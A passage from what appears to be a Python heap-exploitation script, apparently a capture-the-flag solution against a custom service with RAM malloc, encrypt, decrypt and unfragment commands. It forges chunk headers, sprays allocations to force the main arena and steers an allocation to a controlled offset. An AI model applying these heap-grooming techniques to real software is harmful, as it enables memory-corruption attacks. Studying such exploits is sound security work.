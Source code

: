```py
            0x31.to_bytes(8, "little") +
            b"\x00"*0x18 + 
            0x121.to_bytes(8, "little") +
            0x30.to_bytes(8, "little") +
            0x31.to_bytes(8, "little")
        )
        c1.close()
        r.close()

        r = conn()
        send_5_RAM_free_all(r)
        r.close()

        log.info("Create clients to enforce the use of main arena")
        clients = [conn() for _ in range(8*nb - 2)]

        for client in clients:
            send_1_RAM_malloc(client, 1, 0)
            Exploit.CURRENT_RAM_ID += 1

        log.info("Point to the future created chunk")
        r = conn()
        ram_id = point_at(r, 0x10410-0x666, 0x200)
        send_4_RAM_encrypt(r, ram_id, 0x10, b"\x00"*8 + 0x30.to_bytes(8, "little"))

        log.info("Create chunk")
        ram_chunk = conn()
        send_1_RAM_malloc(ram_chunk, 1, 0)
        ram_chunk_id = Exploit.CURRENT_RAM_ID
        Exploit.CURRENT_RAM_ID += 1

        log.info("Check if the created chunk is really controlled")
        leak = send_3_RAM_decrypt(r, ram_id)
        return leak.count(b"\x00") != 511

def point_at(r, to_point, size):
    long  = to_point//(0x5c0c + 0xc*2 + 0x10)
    short = (to_point - long*(0x5c0c + 0xc*2 + 0x10))//0x20c
    done  = to_point - long*(0x5c0c + 0xc*2 + 0x10) - short*0x20c

    if done - 2*0xc < 0:
        raise Exception("Not good path found")

    if done - 2*0xc != 0:
        send_1_RAM_malloc(r, done-2*0xc, 0)
        Exploit.CURRENT_RAM_ID += 1

    for _ in range(long):
        send_1_RAM_malloc(r, 0x01, 1)
        send_1_RAM_malloc(r, 0x01, 1)
        send_4_RAM_encrypt(r, Exploit.CURRENT_RAM_ID, 0x10, b"b"*0x10)
        Exploit.CURRENT_RAM_ID += 2

    for _ in range(short):
        send_1_RAM_malloc(r, 0x200, 0)
        Exploit.CURRENT_RAM_ID += 1

    send_7_RAM_unfragment(r)
    send_1_RAM_malloc(r, size, 0)
    Exploit.CURRENT_RAM_ID += 1

    return Exploit.CURRENT_RAM_ID-1

```